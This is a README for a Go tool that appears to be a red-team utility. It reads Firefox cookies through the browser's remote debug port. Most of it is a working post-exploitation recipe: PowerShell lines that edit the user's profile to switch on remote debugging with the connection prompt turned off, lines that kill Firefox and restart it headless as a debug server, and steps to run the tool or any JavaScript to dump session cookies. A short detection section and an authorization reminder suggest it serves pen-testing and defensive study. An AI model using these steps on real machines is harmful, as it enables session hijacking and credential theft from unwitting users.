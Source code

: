 # Firefox - Debug Client for Cookie Access

Connect to Firefox debug port and issue Javascript commands and read responses - useful for grabbing cookies.

For now I have focused on Windows, but it should work with macOS (even more useful there actually) - but I don't have a MacBook at the moment to test things.

![ffcm output](https://embracethered.com/blog/images/2020/firefox/output.png)

## Technical details

The tool is written in `Golang` using concurrent sender/receiver routines. It creates a TCP connection to Firefox using `net.Dial` and then sends various method calls as JSON serialized objects to eventually run Javascript commands using the `evaluateJSAsync` API to access `Services.cookies.cookies`. 

There is likely a much better/easier way to implemented this, as Firefox recently (since version 78) added a `Network.getAllCookies` Debug API as well.

The Mozilla documentation for the `Remote Debug Protocol` is located [here](https://docs.firefox-dev.tools/backend/protocol.html).

The code leverages a single struct for 5 different "kind of" messages to the server. 

The structure is named `wireMessage` and represents all possible JSON requests/responses. Due to the use of a single message type for all requests/responses it can get a bit messy trying to understand the code.

## Inspired by Cookie Crimes

What inspired me to research this for Firefox? Go check out [Cookie Crimes](https://github.com/defaultnamehere/cookie_crimes) for Chrome by @mangopdf.

## Basic usage

Assuming you have a Firefox instance to connect to and its listening at `localhost:9222`, just run:

```
.\ffcm.exe 
```

The result is cookies in the form of `name:value:domain`

![ffcm output](https://embracethered.com/blog/images/2020/firefox/output.png)

### Command line options

* **-server**: the name of the debug server, by default localhost
* **-port**: the port of the debug server, by default set to use 9222
* **-command**: JavaScript command to run (by default it iterates and returns cookies name/value pairs)
* **-log**: flag that will enable logging to stdout for debug purposes, by default not specified


**Note:** By default the debug port of Firefox is not enabled. See the section below on how to setup and enable Firefox remote debug protocol.

### Want to run some other code in the debugger?

You can pass in `-command` command line argument to run other Javascript code.

## Enabling remote debugging

To enable remote debugging the following Firefox settings have to be updated:

* *devtools.debugger.remote-enabled*
* *devtools.debugger.prompt-connection*
* *devtools.chrome.enabled*

### Windows setup

Below are a few lines of PowerShell which create a `user.js` which typically seems to get merged into the `pref.js` file. If it does not work via the `user.js` file, you can try to update the `pref.js` file directly - but for me the `user.js` file has worked well.

Firefox needs a restart for them to be picked up.

First, retrieve the users's profile via:

```
$firstprofile = (gci $env:APPDATA\Mozilla\Firefox\Profiles\*.default-rel* -Directory | Select-Object -First 1).FullName
```

And add the following lines to the `user.js` file (by default this file does not exist):

```
write 'user_pref("devtools.chrome.enabled", true);' | out-file $firstprofile\user.js -Append -Encoding ascii
write 'user_pref("devtools.debugger.remote-enabled", true);'  | out-file $firstprofile\user.js -Append -Encoding ascii
write 'user_pref("devtools.debugger.prompt-connection", false);' | out-file $firstprofile\user.js -Append -Encoding ascii
```

That's it, next time Firefox starts the settings will be applied.

### Connecting and launching ffcm

Here are two commands that might come in handy when trying this, first is to terminate all instances of Firefox:
```
Get-Process -Name firefox | Stop-Proces
```

And launching Firefox with the `-start-debugger-server` option:

```
Start-Process 'C:\Program Files\Mozilla Firefox\firefox.exe' -ArgumentList "-start-debugger-server 9222 -headless"
```

After that you can launch `ffcm.exe` the results are sent to `stdout`.

### End to end demo scenario

```
$firstprofile = (gci $env:APPDATA\Mozilla\Firefox\Profiles\*.default-rel* -Directory | Select-Object -First 1).FullName

write 'user_pref("devtools.chrome.enabled", true);' | out-file $firstprofile\user.js -Append -Encoding ascii
write 'user_pref("devtools.debugger.remote-enabled", true);'  | out-file $firstprofile\user.js -Append -Encoding ascii
write 'user_pref("devtools.debugger.prompt-connection", false);' | out-file $firstprofile\user.js -Append -Encoding ascii

Get-Process -Name firefox | Stop-Proces
Start-Process 'C:\Program Files\Mozilla Firefox\firefox.exe' -ArgumentList "-start-debugger-server 9222 -headless"

./ffcm.exe 
[...results ...]

Get-Process -Name firefox | Stop-Proces

```



### macOS setup and example

// TODO

## Detections and alerting

* Looking for `-start-debugger-server` command line arguments to Firefox
* Modification of `user.js` and `prefs.js` files, especially modifications to the 3 settings related to enabling remote debugging


## Build

Very simple, get the code (`main.go` file) and build it.

### Get the code

```
go get github.com/wunderwuzzi23/firefox-cookiemonster
```

or 

```
git clone https://github.com/wunderwuzzi23/firefox-cookiemonster
```


### Build command

```
build -o ffcm.exe main.go
```

#### Cross compile

If you code Go on Linux or WSL you can cross-compile with:

```
$ env GOARCH=amd64 GOOS=windows go build -o ffcm.exe main.go
```

### Interesting behavior with cross compiled Go binaries!

Windows Defender seems to be doing **some extra security scans for cross compiled binaries**. I got a popup from Defender saying it might take up to 10 seconds for the binary to run because its being scanned... It still ran without issues though. When compiling natively on Windows there was no extra scan or popup.

## Blog

If you like this stuff, check out the [Embrace the Red](https://embracethered.com) blog.

## Background and more info about browser remote debugging

There is more background info about the tool and browser remote debugging on my blog at: 

* [Remote Debugging with Firefox](https://embracethered.com/blog/posts/2020/cookies-on-firefox/)
* [Post-Exploitation: Abusing Chrome's debugging feature to observe and control browsing sessions remotely](https://embracethered.com/blog/posts/2020/chrome-spy-remote-control/)
* [Cookie Crimes and the new Microsoft Edge Browser](https://embracethered.com/blog/posts/2020/cookie-crimes-on-mirosoft-edge/)


## Final remarks

**As always the reminder that pen testing requires authorization from proper stakeholders.** 

This information is provided to improve the understanding of attacks and build better mitigations and improve detections.

